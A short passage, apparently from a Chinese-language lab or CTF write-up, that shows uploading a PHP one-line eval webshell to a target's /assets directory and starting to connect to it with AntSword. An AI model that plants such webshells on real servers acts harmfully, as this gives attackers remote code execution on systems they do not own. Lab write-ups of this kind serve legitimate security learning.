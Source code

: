这里非常有可能上传一个 webshell;

### 10000 端口

同样是一个后台登录界面, 不过之前的密码用不上, 尝试过多还会封 ip;

## 上传 webshell

### 一句话木马

传一个一句话木马到服务器上:

```php
<?php @eval($_POST['shell']);?>
```

刚刚 `gobuster` 扫出的目录里有 `/assets` 这个目录, 很可能就在这个路径下, 尝试访问:

![3-4.png](3-4.png)

果然已经上传成功。

### 连接 webshell

用蚁剑连上 shell:
